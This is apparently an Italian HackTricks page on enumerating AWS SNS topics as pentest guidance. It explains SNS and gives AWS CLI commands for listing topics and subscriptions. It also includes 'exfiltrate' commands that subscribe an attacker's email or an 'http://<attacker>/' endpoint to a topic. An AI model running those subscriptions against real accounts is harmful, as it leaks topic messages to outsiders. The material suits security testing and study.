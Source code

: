 # AWS - Enumerazione di SNS

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS) è descritto come un **servizio di messaggistica completamente gestito**. Supporta sia i tipi di comunicazione **applicazione-applicazione** (A2A) che **applicazione-persona** (A2P).

Le caratteristiche chiave per la comunicazione A2A includono i **meccanismi di pubblicazione/sottoscrizione (pub/sub)**. Questi meccanismi introducono **argomenti**, cruciali per abilitare una messaggistica **push-based, many-to-many ad alto throughput**. Questa funzionalità è molto vantaggiosa in scenari che coinvolgono sistemi distribuiti, microservizi e architetture serverless basate sugli eventi. Sfruttando questi argomenti, i sistemi editori possono distribuire efficientemente messaggi a una **vasta gamma di sistemi sottoscrittori**, facilitando un modello di messaggistica fanout.

### **Differenza con SQS**

**SQS** è un servizio **basato su code** che consente la comunicazione punto a punto, garantendo che i messaggi siano elaborati da un **singolo consumatore**. Offre **consegna almeno una volta**, supporta code standard e FIFO, e consente la conservazione dei messaggi per i tentativi di ripetizione e l'elaborazione ritardata.\
D'altra parte, **SNS** è un servizio **basato su pubblicazione/sottoscrizione**, che abilita la comunicazione **one-to-many** trasmettendo messaggi a **più sottoscrittori** contemporaneamente. Supporta **vari endpoint di sottoscrizione come email, SMS, funzioni Lambda e HTTP/HTTPS**, e fornisce meccanismi di filtraggio per una consegna mirata dei messaggi.\
Mentre entrambi i servizi consentono il disaccoppiamento tra i componenti nei sistemi distribuiti, SQS si concentra sulla comunicazione in coda, e SNS enfatizza i modelli di comunicazione fan-out basati sugli eventi.

### **Enumerazione**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Si noti che se l'**argomento è di tipo FIFO**, possono essere utilizzati solo abbonati che utilizzano il protocollo **SQS** (HTTP o HTTPS non possono essere utilizzati).

Inoltre, anche se il `--topic-arn` contiene la regione, assicurati di specificare la regione corretta in **`--region`** o otterrai un errore che sembra indicare che non hai accesso, ma il problema è la regione.
{% endhint %}

#### Accesso non autenticato

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Escalation dei privilegi

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post Exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistenza

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Riferimenti

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
